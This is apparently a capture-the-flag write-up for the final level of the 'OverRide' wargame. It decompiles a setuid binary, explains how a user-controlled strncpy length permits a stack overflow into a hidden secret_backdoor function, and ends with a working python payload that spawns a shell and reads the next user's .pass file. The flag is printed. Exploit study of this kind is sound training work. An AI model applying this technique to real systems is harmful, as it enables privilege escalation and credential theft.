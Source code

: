 # Solution

Information about the binary if we check the `file` command we will see that the binary is x86_64 and not x86:

```sh
level09@OverRide:~$ file level09
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

Here is the decompile C code:

```c
void secret_backdoor(void)
{
    char s[128];

    fgets(s, 128, stdin);
    system(s);
}

void    set_msg(char *buffer)
{
    char s[1024];

    memset(s, 0, sizeof(s));
    puts(">: Msg @Unix-Dude");
    printf(">>: ");
    fgets(s, 1024, stdin);
    strncpy(buffer, s, *(int *)(buffer + 180));
}

void    set_username(char *buffer)
{
    char s[140];
    int i;

    memset(s, 0, 0x80uLL);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(s, 128, stdin);
    for ( i = 0; i <= 40 && s[i]; ++i )
        *(unsigned char *)(buffer + i + 140) = s[i];
    printf(">: Welcome, %s", (const char *)(buffer + 140));
}

void    handle_msg(void)
{
    char buffer[140];

    set_username(buffer);
    set_msg(buffer);
    puts(">: Msg sent!");
}


int main(void)
{
    puts(
            "--------------------------------------------\n"
            "|   ~Welcome to l33t-m$n ~    v1337        |\n"
            "--------------------------------------------");
    handle_msg();
    return 0;
}

```
This one is quit tricky and easy to not see the exploit here is the line that is dangerous:

```c
strncpy(buffer, s, *(int *)(buffer + 180));
```

So it's inside the `set_msg()` function which is called inside the `handle_msg()` function,
the `buffer + 180` is actually under our control inside we have to look at the `set_username()` function first:

```c
void    set_username(char *buffer)
{
    char s[140];
    int i;

    memset(s, 0, 0x80uLL);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(s, 128, stdin);
    for ( i = 0; i <= 40 && s[i]; ++i )
        *(unsigned char *)(buffer + i + 140) = s[i];
    printf(">: Welcome, %s", (const char *)(buffer + 140));
}

void    handle_msg(void)
{
    char buffer[140];

    set_username(buffer);
    set_msg(buffer);
    puts(">: Msg sent!");
}
```

So the `set_username()` function is using the handle_msg `buffer` variable as argument,
to write 40 byte starting at the `index 140` which if you look at the `buffer variable` in handle_msg function,
is clearly an overflow so in the `set_username()` function it will use a stack buffer named `s` and will get input from user,
via `fgets()` call which then will use the only 40 first byte of the `s` input even though you can store 128 only 40 will be used.

From here we have to look at the `set_msg()` function to understand why the `strncpy()` call is where the exploit start:

```c
void    set_msg(char *buffer)
{
    char s[1024];

    memset(s, 0, sizeof(s));
    puts(">: Msg @Unix-Dude");
    printf(">>: ");
    fgets(s, 1024, stdin);
    strncpy(buffer, s, *(int *)(buffer + 180));
}
```

You could see here we also have a stack buffer called `s` we also fetch the input from the user via `fgets()` call,
but the `strncpy()` parameter are what we are interested in for the exploit.

Here is function call with parameter `strncpy(buffer, s, *(int *)(buffer + 180))` the third parameter is the reason of the exploit,
so the exploit is the simple overwrite of the return address where here we will need to write the return address by the function `secret_backdoor()`.

The issue the with the third parameter in `strncpy()` is that we can control that parameter allowing us to overflow the `buffer` which max capacity is 140 byte,
so the goal here will be to pass byte `\xff` which is equal in decimal as 255 allowing us to overwrite the return address.

First let's test that theory and find the offset that will overwrite the value let's start `gdb-gef` and find those information:

```sh
# let's break at the first call of fgets inside the set_username function
gef➤  b *set_username+107
```

```sh
# now continue until hitting the breakpoint and pass the fgets call
gef➤  c
Continuing.
>: Enter your username

Breakpoint 3, 0x0000555555400a38 in set_username ()
```

```sh
# from here we need to pass the fgets and go to the next instruction and use call inside gdb to provide the payload
gef➤  ni
>>:
0x0000555555400a3d in set_username ()

   0x555555400a35 <set_username+0068> mov    rdi, rax
●  0x555555400a38 <set_username+006b> call   0x555555400770 <fgets@plt>
 → 0x555555400a3d <set_username+0070> mov    DWORD PTR [rbp-0x4], 0x0
   0x555555400a44 <set_username+0077> jmp    0x555555400a6a <set_username+157>
# now we need to use call memcpy at the address of the buffer which is store in rax register
gef➤  x/xg $rax
0x7fffffffd7a0: 0x000000000000000a
gef➤  call (void *)memcpy(0x7fffffffd7a0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xff\xff", 41)
$10 = (void *) 0x7fffffffd7a0
```

Why are we using two `\xff\xff` and writing 41 byte, because of the `\n` that will be present to avoid having,
`0a` as last value and to force the `\xff` as last value.

So now we have the proper payload inside the buffer let's see if we actually manage to control the third parameter,
this is pretty simple we will check if the index 180 is set we the proper value which should be `0xff` or `255` in decimal.

```sh
# this buffer variable inside handle_msg() function
gef➤  x/xw $rbp-0xc0+180
0x7fffffffd8f4: 0x000000ff
```

So yes this works nice now we need to find the offset that will overwrite the return address let's use a de brujin string.

```sh
# now we create the pattern and break at the next fgets call which is inside the set_msg() function.
gef➤  pattern create 250
[+] Generating a pattern of 250 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabga
[+] Saved as '$_gef0'
gef➤  b *set_msg+107
```

Now let's pass the de brujin string that we generated as input to fgets

```sh
gef➤  x/xg $rbp+0x8
0x7fffffffd908: 0x626161616161617a
gef➤  pattern search 0x626161616161617a
[+] Searching for '7a61616161616162'/'626161616161617a' with period=8
[+] Found at offset 200 (little-endian search) likely
```

So the offset to overwrite the address is at the position 200 now let's pack the address of `secret_backdoor()` function,
this will give us `\x8cHUUUU\x00\x00` which is the address for x86_64 of `secret_backdoor()` now we just need to check a the `secret_backdoor()` function before,

```c
int secret_backdoor(void)
{
    char s[128];

    fgets(s, 128, stdin);
    return system(s);
}
```

As you can see it's also expecting and input from the user and will use the buffer as parameter to the `system()` function,
so let's provide "/bin/sh" to start a shell.


Here is the payload and result of it:
```sh
level09@OverRide:~$ (python -c 'print "A"*39+"\xff\xff"'; python -c 'print "A"*200+"\x8cHUUUU\x00\x00"'; python -c 'print "/bin/sh"'; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude
>>: >: Msg sent!



ls -l
ls: cannot open directory .: Permission denied
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

We managed to start a shell and fetch the flag and finished OverRide !
